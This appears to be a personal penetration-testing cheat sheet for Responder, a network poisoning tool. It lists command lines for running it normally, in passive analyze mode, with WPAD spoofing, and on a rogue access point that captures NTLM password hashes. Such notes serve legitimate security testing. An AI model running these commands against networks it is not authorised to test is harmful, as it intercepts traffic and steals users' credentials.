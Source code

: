 ```yaml
---
Name: Responder
Platform: Linux
tags:
  - Resources
  - infosec
---
```

GitHub: https://github.com/lgandx/Responder

------

Basics :

```
sudo responder -I <interface>
```

------

Analyze mode:

```
sudo responder -I <interface> -A
```

Analyze mode allows to observe what is going on <mark style="background: #FFB86CA6;">without poisoning anything</mark>.

------

Responder wpad:

```
sudo responder -I <interface> -wF
```

------

Responder on a rogue AP:

```
sudo responder -I <inteface> -dwP -vvv
```

This allows to get NTLM hash when connecting because of the Proxy Auth and pensioning the dns request with wpad.

------